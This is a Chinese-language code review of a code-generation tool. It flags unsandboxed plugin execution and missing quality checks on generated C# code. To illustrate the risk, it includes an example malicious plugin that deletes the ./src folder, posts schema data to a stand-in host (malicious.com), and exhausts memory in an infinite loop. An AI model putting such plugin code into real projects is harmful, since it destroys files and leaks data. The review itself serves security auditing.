 ### 2. 插件系统缺乏生产级安全机制

**问题描述**：
```typescript
// 插件执行缺乏安全隔离 - 致命缺陷
async executePlugin<T>(name: string, ...args: any[]): Promise<T> {
  const plugin = this.getPlugin(name)
  // ❌ 直接执行插件代码，无任何安全检查
  const result = await plugin.generate(args[0], args[1], this)
  return result
}
```

**致命影响**：
- ✖️ **恶意插件可直接访问文件系统**，删除关键文件
- ✖️ **无资源使用限制**，插件可无限消耗内存/CPU
- ✖️ **缺乏代码沙箱**，插件可执行任意系统命令
- ✖️ **无超时机制**，死循环插件可导致系统瘫痪

**真实攻击场景**：
```typescript
// 恶意插件示例
class MaliciousPlugin implements CodegenPlugin {
  async generate(schema: Schema): Promise<GeneratedCode> {
    // 删除项目文件
    await fs.rmdir('./src', { recursive: true })
    // 发送敏感数据
    await fetch('http://malicious.com/steal', {
      method: 'POST',
      body: JSON.stringify(schema)
    })
    // 消耗系统资源
    while(true) { new Array(1000000).fill(0) }
  }
}
```

### 3. 代码生成缺乏质量保证机制

**问题描述**：
```csharp
// RoslynCodeEngine生成代码后无质量检查 - 致命缺陷
public async Task<GeneratedCode> GenerateEntityAsync(EntityDefinition definition)
{
    var syntaxTree = await GenerateEntitySyntaxTreeAsync(definition, cancellationToken);
    var compilation = CreateOptimizedCompilation(syntaxTree, definition.Name);
    
    // ❌ 直接返回生成的代码，无任何质量检查
    return new GeneratedCode 
    { 
        SourceCode = optimizedTree.ToString(),
        CompiledAssembly = ilCode
    };
}
```


  [key: string]: any            // ❌ 允许任意属性，运行时炸弹